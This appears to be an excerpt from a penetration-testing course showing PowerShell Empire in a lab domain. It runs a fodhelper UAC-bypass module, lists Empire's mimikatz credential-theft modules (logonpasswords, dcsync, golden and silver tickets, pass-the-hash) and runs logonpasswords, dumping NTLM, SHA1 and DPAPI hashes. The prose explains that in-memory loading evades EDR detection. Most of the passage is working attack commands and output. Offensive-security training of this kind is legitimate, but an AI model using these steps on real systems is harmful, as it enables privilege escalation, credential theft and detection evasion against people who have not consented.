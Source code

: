 UserAgent False default User-agent string to use for the staging
 request (default, none, or other).
Proxy False default Proxy to use for request (default, none,
 or other).
Agent True S2Y5XW1L Agent to run module on.
ProxyCreds False default Proxy credentials
 ([domain\]username:password) to use for
 request (default, none, or other).
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http
(Empire: powershell/privesc/bypassuac_fodhelper) > execute
[>] Module is not opsec safe, run? [y/N] y
(Empire: powershell/privesc/bypassuac_fodhelper) >
Job started: 4STVDU
[+] Initial agent K678VC13 from 10.11.0.22 now active (Slack)
(Empire: powershell/privesc/bypassuac_fodhelper) >

 Once we have a high-integrity session, we can perform actions that require local administrator orSYSTEM rights, such as executing mimikatz to dump cached credentials.

(Empire: agents) > interact K678VC13
(Empire: K678VC13) > usemodule credentials/
credential_injection* mimikatz/extract_tickets mimikatz/sam*
enum_cred_store mimikatz/golden_ticket mimikatz/silver_ticket
invoke_kerberoast mimikatz/keys* mimikatz/trust_keys*
mimikatz/cache* mimikatz/logonpasswords* powerdump*
mimikatz/certs* mimikatz/lsadump* sessiongopher
mimikatz/command* mimikatz/mimitokens* tokens
mimikatz/dcsync mimikatz/pth* vault_credential*
mimikatz/dcsync_hashdump mimikatz/purge


 The credentials category in Listing 840 contains multiple mimikatz commands that have beenported into Empire. 
 
 The commands marked with an asterisk require a high-integrity Empire agent.

 Empire uses reflective DLL injection728 to load the mimikatz library into the agent directly frommemory.

 Loading our malicious executable in this way minimizes the risk of detection since most EDRsolutions only analyze files stored on the hard drive.

 This method is custom-coded into the agent as Windows does not expose anyofficial APIs (similar to LoadLibrary) that would allow us to achieve the sameobjective.

 Let’s take a look at a high-integrity access module such as logonpasswords:

(Empire: K678VC13) > usemodule credentials/mimikatz/logonpasswords
(Empire: powershell/credentials/mimikatz/logonpasswords) > execute
Job started: NXK271
Hostname: client251.corp.com / S-1-5-21-3048852426-3234707088-723452474
mimikatz(powershell) # sekurlsa::logonpasswords
Authentication Id : 0 ; 244851 (00000000:0003bc73)
Session : Interactive from 1
User Name : offsec
Domain : corp
Logon Server : DC01
Logon Time : 2/20/2019 10:36:32 PM
SID : S-1-5-21-3048852426-3234707088-723452474-1103
 msv :
 [00000003] Primary
 * Username : offsec
 * Domain : corp
 * NTLM : e2b475c11da2a0748290d87aa966c327
 * SHA1 : 8c77f430e4ab8acb10ead387d64011c76400d26e
 * DPAPI : c10c264a27b63c4e66728bbef4be8aab
 tspkg :
 wdigest :